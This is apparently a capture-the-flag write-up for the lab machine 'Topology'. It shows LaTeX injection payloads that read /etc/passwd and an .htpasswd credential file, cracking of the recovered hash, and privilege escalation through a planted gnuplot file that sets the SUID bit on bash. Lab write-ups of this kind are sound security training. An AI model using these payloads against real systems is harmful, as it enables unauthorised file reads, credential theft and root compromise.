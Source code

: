 # Topology

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.76.27 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-11 23:49 +08
Nmap scan report for 10.129.76.27
Host is up (0.012s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

HTTP exploits it seems.&#x20;

### LaTeX Project -> LFI

The website is seems to be a university website:

<figure><img src="../../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

There's a LaTeX Equation Generator available. LaTeX is a software made for documentation, and I'm roughly familiar with how it works to make mathematical equations for stuff like university math module notes. Anyways, we have to add `latex.topology.htb` to our `/etc/hosts` file to visit the `equation.php` site available.&#x20;

On the site itself, it just shows some basic LaTeX syntax:

<figure><img src="../../../.gitbook/assets/image (3253).png" alt=""><figcaption></figcaption></figure>

There are some exploits available pertaining to Latex Injection, such as being able to read machine files. I tried to use `\input{/etc/passwd}` to read files, but there's a WAF blocking it:

<figure><img src="../../../.gitbook/assets/image (2156).png" alt=""><figcaption></figcaption></figure>

I tested different payloads, and eventually found one that worked on this site:

{% embed url="https://0day.work/hacking-with-latex/" %}

```latex
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

Using this, we can get the first line of the `/etc/passwd` file:

<figure><img src="../../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

Before carrying on, I wanted to some proper web enumeration to find out what I was supposed to do with this LFI. Using `wfuzz`, I found a `dev` subdomain:

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.topology.htb" --hc=200 -u http://topology.htb
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://topology.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000019:   401        14 L     54 W       463 Ch      "dev"
```

This returns a 401, and visiting it requires credentials:

<figure><img src="../../../.gitbook/assets/image (2140).png" alt=""><figcaption></figcaption></figure>

This is a HTTP sign in, meaning we can probably find the credentials in a `.htpasswd` file somewhere. Also, it coincides with the one-line LFI that we have. However, the same command does not work with the `/var/www/dev/.htpasswd` file, which is definitely where the password hash is stored.

In this case, what we can do is try to use other commands, like `\lstinputlisting`. However, this payload doesn't work:

```latex
\lstinputlisting{/var/www/dev/.htpasswd}
```

It doesn't work (as I've learnt) because the machine asks for **LaTeX inline math mode.** There are different modes for LaTeX present, and they would parse characters differently. If we use '$' signs, we can force the machine to process our query by switching mode for it.&#x20;

{% embed url="https://tex.stackexchange.com/questions/410863/what-are-the-differences-between-and" %}

If we use `\\lstinputlisting{/var/www/dev/.htpasswd}` instead, we see that it processes it as text:

<figure><img src="../../../.gitbook/assets/image (2429).png" alt=""><figcaption></figcaption></figure>

So by using `$\lstinputlisting{/var/www/dev/.htpasswd}$`, it would be processed as an expression (similar to `$()` in bash) and loads the hash:

<figure><img src="../../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

We can crack the hash easily with `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (vdaisley)     
1g 0:00:00:04 DONE (2023-06-12 00:30) 0.2375g/s 236511p/s 236511c/s 236511C/s calebd1..caitlyn09
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Then we can access the `dev` subdomain:

<figure><img src="../../../.gitbook/assets/image (1322).png" alt=""><figcaption></figcaption></figure>

More importantly, we can access the user via `ssh`:

<figure><img src="../../../.gitbook/assets/image (3362).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### GNUPlot

Within the `/opt` directory, there was a `gnuplot` file present:

```
vdaisley@topology:/opt$ ls
gnuplot
vdaisley@topology:/opt$ ls -al
total 12
drwxr-xr-x  3 root root 4096 May 19 13:04 .
drwxr-xr-x 18 root root 4096 May 19 13:04 ..
drwx-wx-wx  2 root root 4096 Jun  6 08:14 gnuplot
```

I also ran a `pspy64` while searching more about this particular software, and found some interesting processes:

```
2023/06/11 12:35:01 CMD: UID=0    PID=2774   | /usr/sbin/CRON -f 
2023/06/11 12:35:01 CMD: UID=0    PID=2773   | /usr/sbin/CRON -f 
2023/06/11 12:35:01 CMD: UID=0    PID=2776   | /bin/sh /opt/gnuplot/getdata.sh 
2023/06/11 12:35:01 CMD: UID=0    PID=2775   | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/06/11 12:35:01 CMD: UID=0    PID=2781   | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;                                                                           
2023/06/11 12:35:01 CMD: UID=0    PID=2787   | gnuplot /opt/gnuplot/loadplot.plt 
2023/06/11 12:35:01 CMD: UID=0    PID=2786   | sed s/,//g 
2023/06/11 12:35:01 CMD: UID=0    PID=2785   | 
2023/06/11 12:35:01 CMD: UID=0    PID=2782   | find /opt/gnuplot -name *.plt -exec gnuplot {} ;                                                                                           
2023/06/11 12:35:01 CMD: UID=0    PID=2788   | gnuplot /opt/gnuplot/networkplot.plt 
```

We don't have read access to the directory, but we have write access, meaning we have to manipulate the `.plt` files present on the `/opt` directory to somehow achieve RCE as `root`. Or, we can just add another `.plt` file.&#x20;

I found a resource that shows the `system` keyword can be used to execute system commands:

{% embed url="http://www.bersch.net/gnuplot-doc/system.html" %}

We just need to create a `priv.plt` file within the directory:

```
system "chmod u+s /bin/bash"
```

Then, we can just wait for `root` to execute our new file and privesc that way:

<figure><img src="../../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
